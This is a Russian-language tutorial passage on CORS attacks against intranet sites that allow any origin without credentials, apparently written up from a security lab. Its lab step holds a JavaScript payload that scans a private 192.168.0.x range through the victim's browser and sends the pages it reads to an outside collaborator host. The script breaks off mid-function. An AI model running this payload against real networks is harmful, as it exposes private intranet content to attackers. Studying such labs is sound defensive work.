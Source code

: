 ### Intranets и CORS без кредов

Большинство CORS-атак опираются на наличие заголовка ответа:

```
Access-Control-Allow-Credentials: true
```

Без этого заголовка браузер пользователя-жертвы откажется отправлять свои cookies, что означает, что злоумышленник получит доступ только к неаутентифицированному контенту, который он мог бы получить, зайдя непосредственно на целевой сайт.

Однако существует одна распространенная ситуация, когда злоумышленник не может получить прямой доступ к веб-сайту: когда он является частью внутренней сети организации и расположен в пространстве частных IP-адресов. Внутренние веб-сайты часто имеют более низкие стандарты безопасности, чем внешние сайты, что позволяет злоумышленникам найти уязвимости и получить дальнейший доступ. Например, cross-origin запрос в частной сети может выглядеть следующим образом:

```http
GET /reader?url=doc1.pdf HTTP/1.1
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

И сервер отвечает следующим образом:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

Сервер приложений доверяет запросам ресурсов любого происхождения без учетных данных. Если пользователи в частном пространстве IP-адресов выходят в публичный интернет, то атака на основе CORS может быть осуществлена с внешнего сайта, который использует браузер жертвы в качестве прокси для доступа к ресурсам интрасети

#### Lab

**Шаг 1**

Сканим локальную сеть на наличие конечной точки

```html
<script>
var q = [], collaboratorURL = 'http://znqatly393h7ax9ys71p7qaai1osci07.oastify.com';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
```